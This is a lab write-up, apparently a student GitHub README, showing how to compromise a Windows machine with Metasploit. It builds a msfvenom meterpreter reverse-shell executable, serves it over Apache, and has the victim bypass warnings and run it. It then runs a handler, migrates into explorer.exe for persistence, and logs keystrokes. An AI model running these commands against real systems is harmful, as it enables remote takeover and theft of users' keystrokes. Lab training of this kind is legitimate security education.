 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![ifconfig](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/890da223-ee83-4a04-9bee-fd5f53ea62a4)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![msfvenom](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/9d5453ef-2bbd-4132-9b4e-cf29d5610169)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![msf2](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/8f32313d-01d3-418f-8013-4f551014f952)

Start apache server
sudo systemctl apache2 start
## OUTPUT:
![apache1](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/3ca06607-ac29-4e5c-90e1-5366fb36ff78)

Check the status of apache2
## OUTPUT:
![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/4988ea38-fd70-42c7-b6f4-58a5ab2c6733)

Invoke msfconsole:
## OUTPUT:
![msfconsloe](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/44d147b1-ec08-4f88-9a90-c07447b7c9b9)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![help](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/64cf9c76-1920-45e1-ac82-864900fa2805)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![ccs](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/9bcf690b-1acd-42ed-bef4-bdd63cf79bf9)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/03f20cd0-6941-4198-8b64-51b4d0aa0acb)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/f45f4b1c-c833-40a0-96a8-0ee7dbab4be5)

On kali give the command exploit

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/76f43c4b-aaac-41a9-96d3-6682a3433c1b)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/518c3556-f762-4bd8-8ac5-816ca6a3639e)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/c832941b-d016-4dd7-9a8c-4c4d7b9913c3)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/c5024173-f975-4900-8389-bbcb207baf2f)
![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/157a8792-65bf-4528-965e-c3cd0005e9f9)

keyscan_dump	Shows the keystrokes captured so far

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/82a9c840-cf1c-42f0-b009-5465612381af)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
